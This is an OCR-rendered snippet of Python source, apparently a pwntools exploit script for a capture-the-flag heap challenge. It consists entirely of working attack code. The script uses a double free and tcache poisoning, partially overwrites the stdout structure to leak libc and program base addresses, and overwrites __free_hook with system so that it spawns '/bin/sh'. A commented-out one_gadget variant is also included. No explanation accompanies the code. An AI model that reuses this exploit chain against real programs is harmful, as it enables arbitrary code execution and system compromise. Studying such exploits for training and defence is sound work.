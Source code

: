 ```python
            def free():
                choice(2)
            
            add(0x70,'AAA')
            free()
            free()
            if debugg:
                if p64(ctx.bases.heap)[1] != '\x70':
                    print hex(ctx.bases.heap)
                    ctx.close()
                    continue
            
            add(0x70,p16(0x7010))
            add(0x70,'')
            add(0x70,p64(0)*4+'\x00'*3+'\x07')
            free()
            #0x7ffff7dd0780
            #add(0x40,'\x00'*2+'\x07'+'\x00'*3+'\x07'+'\x00')
            add(0x40,'\x00')
            fake = 0xb770
            
            if debugg:
                if p64(ctx.bases.libc+0x3ec760+0x10)[:2]!='\x70\xb7':
                    ctx.close()
                    continue

            add(0x10,p64(0)+p32(fake)[:2])
            free()
            add(0x50,p32(fake+0x10)[:2])
            #ctx.debug()
            the_bytes = '\x70'
            add(0x40,the_bytes)
            sl(1)
            sleep(0.1)
            sl(0x70)
            sleep(0.1)
            sl(the_bytes)
            #ctx.debug()
            libc_base = uu64(r(6)) - 0x3ec770
            log.success("libc_base = %s"%hex(libc_base))
            libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
            save_text_base = libc_base + 0x61a170
            malloc_hook = libc_base + libc.symbols['__malloc_hook']
            free_hook = libc_base + libc.symbols['__free_hook']
            system = libc_base + libc.symbols['system']
            stdout = libc_base + 0x3ec760
            
            add(0x18,p64(malloc_hook-8)+p64(free_hook)+p64(stdout+0x10))
            add(0x50,p64(save_text_base)+p64(libc_base+0x3ec7e3)+p64(save_text_base)+p64(save_text_base+6))
            text_base = uu64(r(6))
            log.success("text_base = %s"%hex(text_base))
            to_call_free = text_base + 0xDAE
            add(0x40,p64(system+27))
            add(0x30,'/bin/sh\x00'+p64(to_call_free))
            #ctx.debug()
            """
            add(0x18,p64(malloc_hook))
            one = libc_base + 0x4f2c5
            log.success("one = %s"%hex(one))
            add(0x30,p64(one))
            """
            choice(1)
```
